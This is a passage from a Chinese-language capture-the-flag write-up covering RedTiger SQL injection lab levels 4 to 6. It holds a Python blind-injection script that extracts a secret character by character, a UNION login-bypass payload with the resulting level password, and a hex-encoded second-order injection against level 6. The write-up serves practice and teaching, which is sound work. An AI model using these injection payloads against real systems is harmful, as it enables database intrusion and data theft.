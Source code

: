 ```bash
    # 表示值偏小
    else:
        return 1
def get_data_char(i):
    url_template = "https://redtiger.labs.overthewire.org/level4.php?id=2 or ascii(substr((select keyword from level4_secret),{0},1))>{1}"
    low,high = 48,126
    while low<=high:
        mid = (low+high)//2
        url = url_template.format(i,mid)
        result = exe_get(url)
        if result>0:
            low = mid+1
        else:
            high=mid-1
        print(low,high,mid)
    print(low)
    return low

def get_data():
    data=""
    for i in range(1,18):
        char=get_data_char(i)
        data += chr(char)
        print(data)
get_data()
```

# level 5
post请求,即可
```bash
username=1'union select 1,md5(1)%23&password=1&login=Login
```
得到下一关的：for_more_bugs_update_to_php7
# level 6
一开始加上’报错，开始判断列数
```bash
http://redtiger.labs.overthewire.org/level6.php?user=3 order by 5#
```
判断显示位的时候，出现user not found
猜测后台可能进行了二次查询
尝试一下语句，一直没成功，应该是’引发报错，导致后面无法显示。
```bash
http://redtiger.labs.overthewire.org/level6.php
?user=1' union select 1,username ,3,4,5 from level6_users where status=1 %23
```
换一下语句,各个列位尝试了一下，发现只有第二个先能显示正常，尝试一下把username换成password,发现都失败，猜测第二次sql语句查询应该是根据username字段。
```bash
http://redtiger.labs.overthewire.org/level6.php
?user=0 union select 1,username,3,4,5 from level6_users where status=1 
```
在第二个列位输入，再输入
```bash
http://redtiger.labs.overthewire.org/level6.php
?user=0 union select 1,'union select 1,2,3,4,5#,3,4,5 
```
发现报错，将`nion select 1,'union select 1,2,3,4,5#`转换成十六进制
```bash
http://redtiger.labs.overthewire.org/level6.php
?user=0 union select 1,0x27756E696F6E2073656C65637420312C322C332C342C3523,3,4,5 
```
成功，2,4回显，现在就可以开始正常的流程爆数据了。</br>
最终的payload，原来的语句